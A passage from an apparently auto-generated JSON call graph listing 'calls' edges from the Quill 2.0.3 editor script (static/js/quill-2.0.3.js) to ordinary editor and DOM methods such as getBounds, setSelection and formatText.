"formatLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLeaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "leaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSemanticHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertEmbed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertEmbed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollRectIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollBy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollRectIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "applyDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "fromEntries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleComposition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDragging"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleComposition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDragging"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "leaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "leaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "leaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRangeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeNative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizedToRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizedToRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeNative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rangeToNative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "leaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAllRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAllRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rangeToNative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "import"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "code"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "code"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "blevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 